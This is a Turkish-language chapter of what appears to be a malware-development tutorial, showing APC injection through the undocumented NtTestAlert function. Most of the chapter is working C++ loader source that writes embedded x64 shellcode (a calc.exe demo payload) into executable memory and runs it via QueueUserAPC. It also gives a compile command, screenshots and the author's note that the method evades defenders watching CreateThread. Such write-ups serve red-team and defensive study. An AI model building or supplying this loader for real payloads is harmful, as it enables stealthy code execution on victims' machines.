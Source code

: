 \newpage
\subsection{14. APC enjeksiyonu NtTestAlert ile. Basit C++ zararlı yazılım.}

﷽

![APC injection](./images/22/2021-11-21_13-18.png){width="80%"}    

Bir önceki bölümde, "Early Bird" APC enjeksiyon tekniğinden bahsetmiştim.    

Bu bölümde ise başka bir APC enjeksiyon tekniğini ele alacağım. Bu teknik, belgelenmemiş bir `NtTestAlert` işlevini kullanmamız anlamına geliyor. Şimdi, bir Win32 API olan `QueueUserAPC` ve resmi olarak belgelenmemiş bir Native API olan `NtTestAlert`'ten faydalanarak bir yerel süreçte kabuk kodu nasıl çalıştırılacağını gösterelim.    

### NtTestAlert

**NtTestAlert**, Windows'un uyarı mekanizmasıyla ilgili bir sistem çağrısıdır. Bu sistem çağrısı, iş parçacığının bekleyen tüm APC'lerini çalıştırmasına neden olabilir. Bir iş parçacığı Win32 başlangıç adresini çalıştırmaya başlamadan önce, bekleyen tüm APC'leri çalıştırmak için `NtTestAlert` çağrısı yapar.     

### örnek

Zararlı yazılımımızın C++ kaynak koduna bir göz atalım:      

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

Basitlik adına, payload olarak 64-bit `calc.exe`'yi kullanıyoruz.    

Bu tekniğin akışı oldukça basittir. Öncelikle, yükümüz için yerel süreçte bellek tahsis ederiz:    

![APC injection 1](./images/22/2021-11-21_13-49.png){width="80%"}    

Daha sonra payload’ımızı yeni tahsis edilen belleğe yazarız:    

![APC injection 2](./images/22/2021-11-21_13-50.png){width="80%"}    

Ardından, mevcut iş parçacığına bir APC sıraya alırız:      

![APC injection 3](./images/22/2021-11-21_13-52.png){width="80%"}    

Son olarak, `NtTestAlert` çağrısı yaparız:    

![APC injection 4](./images/22/2021-11-21_13-53.png){width="80%"}    

Kodumuzu derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 5](./images/22/2021-11-21_13-58.png){width="80%"}    

ve kurban makinede (benim durumumda `Windows 7 x64`) çalıştıralım:

![APC injection 6](./images/22/2021-11-21_14-03.png){width="80%"}    

Eğer zararlı yazılımımızı (`hack.exe`) `Ghidra`'da açarsak:    

![APC injection 7](./images/22/2021-11-21_15-12.png){width="80%"}    

`NtTestAlert` işlev çağrısı şüpheli değildir. Bu tekniğin avantajı, mavi takım üyeleri tarafından daha fazla araştırılan ve daha popüler olan `CreateThread` veya `CreateRemoteThread` API çağrılarına dayanmadığıdır.    

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Github'taki kaynak kod:](https://github.com/cocomelonc/2021-11-20-injection-4)    

Umarım bu bölüm, bu ilginç teknik hakkında mavi takım üyelerine farkındalık kazandırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler.    
